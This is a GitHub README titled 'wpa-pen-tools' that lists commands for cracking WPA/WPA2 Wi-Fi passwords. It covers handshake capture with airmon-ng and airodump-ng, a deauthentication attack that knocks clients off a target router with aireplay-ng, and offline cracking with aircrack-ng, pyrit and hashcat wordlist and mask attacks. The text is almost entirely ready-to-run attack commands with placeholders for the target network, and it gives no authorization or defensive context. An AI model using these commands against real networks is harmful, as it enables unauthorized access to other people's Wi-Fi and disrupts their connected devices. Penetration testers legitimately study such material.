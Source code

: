# wpa-pen-tools

Based on [this](http://lewiscomputerhowto.blogspot.com/2014/06/how-to-hack-wpawpa2-wi-fi-with-kali.html) howto

## Extract handshake (in kali)
* airmon-ng start wlan0
* airodump-ng wlan0mon
* airodump-ng -c 1,1 --bssid {target_router_bssid} -w /mnt/mon0 wlan0mon
* aireplay-ng -0 2 -a {target_router_bssid} -c {connected_station_bssid} wlan0mon
* airmon-ng stop wlan0mon

## Crack password

### aircrack-ng
* aircrack-ng -a2 -b {target_router_bssid} -w /mnt/wordlist.txt /mnt/*.cap

### pyrit
* pyrit -r mon0-01.cap analyze
* pyrit -u sqlite:///mydb.db -i wordlist.txt import_passwords
* pyrit -u sqlite:///mydb.db -e {attacked_network_name} create_essid
* #pyrit eval
* pyrit -u sqlite:///mydb.db batch
* pyrit -u sqlite:///mydb.db -r *.cap attack_db

### hashcat
#### Prepare outfile (in kali):
* wpaclean out.cap mon0-01.cap
* aircrack-ng out.cap -J out

#### in hashcat:
* hashcat -m 2500 -a 3 out.hccap '?d?d?d?d?d?d?d?d'
